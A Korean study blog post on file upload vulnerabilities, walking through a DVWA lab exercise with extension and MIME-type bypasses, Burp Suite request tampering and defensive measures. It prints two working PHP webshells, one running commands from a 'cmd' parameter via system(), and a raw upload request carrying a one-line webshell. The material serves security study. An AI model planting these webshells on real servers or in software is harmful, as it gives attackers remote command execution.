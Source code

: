 ```yaml
---
layout: post
title: "파일 업로드 취약점 공부"
date: 2025-09-23 17:00:00 +0900
categories: [웹 해킹]
---
```


### 1. 개요

파일 업로드 취약점은 서버 측에서 업로드되는 파일의 확장자나 내용을 제대로 검증하지 않을 때 발생한다. 공격자는 이 취약점을 이용해 악의적인 스크립트 파일(웹쉘)을 서버에 업로드하여 원격에서 시스템 명령어를 실행(RCE)하고 최종적으로 서버의 제어권을 획득할 수 있다.

이 공격은 [A04: 안전하지 않은 설계](https://hamap0.github.io/projects/owasp-top-10/2025/08/28/A04_Insecure-Design.html) 프로젝트 보고서에서 다룬 핵심 주제이다.

---

### 2. 주요 우회 기법

단순히 `.php` 파일을 업로드하는 것은 대부분의 필터링에 막히므로 이를 우회하는 기법이 필요하다.

*   **확장자 필터링 우회:**
    서버가 특정 확장자를 블랙리스트 방식으로 필터링할 때 사용된다. `.php` 대신 `.phtml` · `.php3` · `.inc` 등 웹 서버가 PHP로 해석할 수 있는 다른 확장자를 시도하거나 `shell.pHp`처럼 대소문자를 혼용하여 우회를 시도할 수 있다.

*   **MIME 타입 검증 우회:**
    서버가 파일 확장자 대신 HTTP 요청 헤더의 `Content-Type`을 기준으로 파일 종류를 판단할 때 사용된다. 이 값은 클라이언트가 보내는 정보이므로 Burp Suite와 같은 프록시 툴을 이용해 `Content-Type: application/x-php`를 `Content-Type: image/jpeg`와 같이 정상적인 이미지 파일처럼 조작하여 필터링을 우회할 수 있다.


---

### 3. 웹쉘 (Webshell)

웹쉘은 웹 서버를 통해 시스템 명령어를 실행할 수 있도록 만들어진 스크립트 파일이다.

#### **기본 웹쉘**
가장 단순한 형태의 웹쉘은 URL 파라미터를 통해 전달받은 명령어를 그대로 실행하고 결과를 출력한다. `cmd`라는 파라미터로 명령어를 전달받는 예시이다.
```php
<?php
  if(isset($_REQUEST['cmd'])){
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
  }
?>
```

#### **개선된 웹쉘 (간이 파일 브라우저)**
조금 더 발전된 형태의 웹쉘은 단순히 명령어를 실행하는 것을 넘어 서버의 파일 시스템을 탐색하는 기능을 포함할 수 있다. 아래 코드는 `path` 파라미터로 전달된 경로의 파일과 디렉터리 목록을 보여주는 간단한 파일 브라우저 역할을 한다.
```php
<?php
  $path = isset($_GET['path']) ? $_GET['path'] : '.';
  $files = scandir($path);
  
  foreach($files as $file) {
    // 현재 디렉터리(.)와 상위 디렉터리(..) 링크 생성
    if ($file == '.') {
      echo "<a href='?path={$path}'>.</a><br>";
    } elseif ($file == '..') {
      $parent_path = dirname($path);
      echo "<a href='?path={$parent_path}'>..</a><br>";
    } else {
      echo $file . "<br>";
    }
  }
?>
```

---

### 4. 사용 예시: Burp Suite를 이용한 MIME 타입 우회

이 예시는 서버가 `Content-Type` 헤더를 신뢰할 때 발생하는 파일 업로드 취약점을 공격하는 과정을 보여준다.

#### **1. 요청 가로채기 (Intercept)**
1.  `shell.php` 파일을 준비하고 Burp Suite와 브라우저 프록시를 설정한다.
2.  Burp Suite의 `Proxy` > `Intercept` 탭을 `On` 상태로 설정한다.
3.  DVWA의 `File Upload` 페이지에서 `shell.php` 파일을 선택하고 `Upload` 버튼을 클릭하여 요청을 가로챈다.

#### **2. Content-Type 헤더 변조**
1.  가로챈 `POST` 요청 패킷에서 `Content-Type` 헤더를 확인한다. 초기 값은 `application/x-php`로 설정되어 있다.
    ```http
    ...
    Content-Disposition: form-data; name="uploaded"; filename="shell.php"
    Content-Type: application/x-php

    <?php system($_GET['cmd']); ?>
    ...
    ```
2.  `Content-Type: application/x-php` 라인을 `Content-Type: image/jpeg`로 수정한다.
3.  `Forward` 버튼을 눌러 변조된 요청을 서버로 전송한다.

#### **3. 업로드 확인 및 웹쉘 실행**
1.  서버의 필터링 로직이 `Content-Type`만 검증했다면, 파일은 정상적으로 업로드되고 저장 경로(예: `../../hackable/uploads/shell.php`)가 출력된다.
2.  브라우저에서 해당 경로에 `?cmd=whoami` 파라미터를 추가하여 접속한다.
3.  화면에 `www-data`가 출력되면 웹쉘 업로드 및 명령어 실행에 성공한 것이다.

---

### 5. 방어 방안

*   **확장자 화이트리스트:** `.php`, `.jsp` 등 위험한 확장자를 금지하는 블랙리스트 방식 대신 `.jpg` · `.png` · `.gif` 와 같이 허용된 확장자만 업로드할 수 있도록 화이트리스트 방식을 사용해야 한다.
*   **파일 내용 검증:** 확장자나 MIME 타입은 조작될 수 있으므로 `getimagesize()`와 같은 함수를 이용해 파일의 내용이 실제 이미지 데이터인지 검증해야 한다.
*   **업로드 경로 제어:** 업로드된 파일이 저장되는 디렉터리는 웹에서 직접 접근할 수 없는 경로(Web Root 외부)에 위치시키거나 만약 웹에서 접근해야 한다면 해당 디렉터리의 스크립트 실행 권한을 제거해야 한다.

<hr class="short-rule">





### 시각 자료(이미지) 제작을 위한 스크립트

#### **기본 웹쉘 실행 이미지 제작**

1.  (준비) 위 `3. 웹쉘` 섹션의 '기본 웹쉘' 코드를 `shell.php` 파일로 저장합니다.
2.  DVWA의 `File Upload` 페이지를 통해 `shell.php` 파일을 업로드합니다.
3.  업로드가 성공하면 파일이 저장된 경로(예: `/hackable/uploads/shell.php`)가 화면에 표시됩니다.
4.  웹 브라우저에서 해당 경로로 접근하되, URL 끝에 실행할 명령어를 쿼리 스트링으로 추가합니다.
    *   **URL 예시:** `http://192.9.200.11/hackable/uploads/shell.php?cmd=whoami`
5.  브라우저 화면에 명령어의 결과인 `www-data`가 출력될 것입니다.
6.  이 상태의 브라우저 화면 전체를 스크린샷으로 찍습니다.
7.  이미지 편집 프로그램을 사용하여 스크린샷을 엽니다.
8.  두 부분에 하이라이트를 적용하여 원인과 결과를 명확히 보여줍니다.
    *   **원인:** 주소창의 `?cmd=whoami` 부분
    *   **결과:** 페이지 본문에 출력된 `www-data`
9.  수정된 이미지를 저장하여 게시글에 삽입합니다.

#### **MIME 타입 우회 공격 이미지 제작**

1.  **Burp Suite 요청 변조 화면 캡처:**
    *   `4. 사용 예시`의 2단계 과정에서, `Content-Type` 헤더를 `image/jpeg`로 수정한 Burp Suite의 `Proxy` 탭 화면을 스크린샷으로 찍어 **`MIME_Bypass_Request.png`**로 저장한다.
2.  **웹쉘 실행 결과 화면 캡처:**
    *   3단계 과정에서, `whoami` 명령어의 결과(`www-data`)가 출력된 브라우저 화면을 스크린샷으로 찍어 **`MIME_Bypass_Result.png`**로 저장한다.
3.  **최종 이미지 편집:**
    *   이미지 편집 프로그램에서 `MIME_Bypass_Request.png`(왼쪽)와 `MIME_Bypass_Result.png`(오른쪽)를 나란히 배치한다.
    *   왼쪽 이미지에서는 `Content-Type: image/jpeg`로 수정된 라인에 하이라이트를 적용한다.
    *   오른쪽 이미지에서는 주소창의 `...shell.php?cmd=whoami` 부분과 본문의 `www-data` 출력 결과에 하이라이트를 적용한다.
    *   두 이미지 사이에 화살표를 추가하여 왼쪽의 요청 변조가 오른쪽의 RCE 성공으로 이어졌음을 시각적으로 연결한다.
    *   수정된 이미지를 게시글에 삽입한다.